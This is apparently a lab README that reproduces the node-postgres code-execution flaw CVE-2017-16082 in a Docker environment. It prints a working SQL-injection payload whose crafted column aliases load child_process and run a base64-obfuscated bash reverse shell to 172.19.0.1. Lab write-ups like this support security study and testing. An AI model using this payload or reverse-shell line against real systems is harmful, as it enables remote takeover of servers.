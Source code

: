 # node-postgres Code Execution Vulnerability (CVE-2017-16082)

## Vulnerability Principle

Node-postgres concatenates field names into code when processing postgres that return type `Row Description`. Because there is no reasonable escaping, a specially constructed field name can escape the code single quotes limit, causing code execution vulnerabilities.

Reference link:

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## Vulnerability recurrence

Compile and run the environment:

```
Docker-compose build
Docker-compose up -d
```

After successful operation, visit `http://your-ip:3000/?id=1` to view the user information with id 1 and use sqlmap to find that there is an injection point here, and the database is postgres:

![](img/1.png)

So, we can guess the code execution vulnerability of node-postgres. Write the command `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash` that I want to execute, and then divide it appropriately (each segment does not exceed 64 characters) and replace it in the following payload:

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec (`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

After the above payload is encoded, it is sent:

![](img/2.png)

Successful execution of commands, such as bounce shell:

![](img/3.png)

Because there are many pits in the recurring process, if there is an error in the payload generation and testing process, please read more [My article] (https://www.leavesongs.com/PENETRATION/node-postgres-code-execution -vulnerability.html), find the problem in principle.